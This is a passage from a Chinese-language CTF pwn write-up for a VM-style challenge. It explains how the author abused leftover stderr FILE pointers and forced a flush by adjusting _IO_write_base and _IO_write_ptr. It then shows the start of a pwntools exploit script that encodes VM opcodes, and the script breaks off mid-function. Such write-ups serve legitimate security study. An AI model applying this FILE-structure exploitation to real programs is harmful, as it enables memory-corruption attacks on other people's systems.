 两条要求，总共八条。

### 一些踩坑

- 由于我以为题目仅有**任意地址加减**的能力，于是在利用过程中**使用了已有的stderr 流，利用其中残留的指针进行相对偏移，从而实现漏洞利用**。
- 我这里使用的是异常流，但是为了诱导程序触发`flush`，需要保证异常流中存在缓存。而这一题默认情况下异常流是空的，所以还需要通过主动的修改`FILE->_IO_write_base`&lt;`FILE->_IO_write_ptr`来保证攻击能够触发。

整体exp如下

```python
from pwn import *

"""
[opcode][optype][value1][value2]
"""

opcode = {
    "ADD":1,
    "SUB":2,
    "LMOV":3,
    "RMOV":4,
    "OP2":5,
    "AND":6,
    "OR":7,
    "XOR":8,
    "PUSH":9,
    "POP":10,
    "NOP":11,
}

# push and pop will select this one default
RET_REG = 1

def generate_type(t):
    if t == "NUM":
        # address
        return 1
    elif t == "ADDR":
        # address
        return 3
    else:
        # register
        return 2

# push last value into stack
def push_value():
    shellcode = b''
    shellcode += p8(opcode["PUSH"])
    # push value
    # optype
    shellcode += p8(generate_type("REG"))
    # opvalue, select reg1
    shellcode += b'\x01'
    return shellcode

# push last value into stack
def add_value(value):
    shellcode = b''
    shellcode += p8(opcode["ADD"])
    # push value
    # optype
    # add reg,num
    shellcode += p8(((generate_type("NUM") << 2) | generate_type("REG")))
    # opvalue, select reg1
```
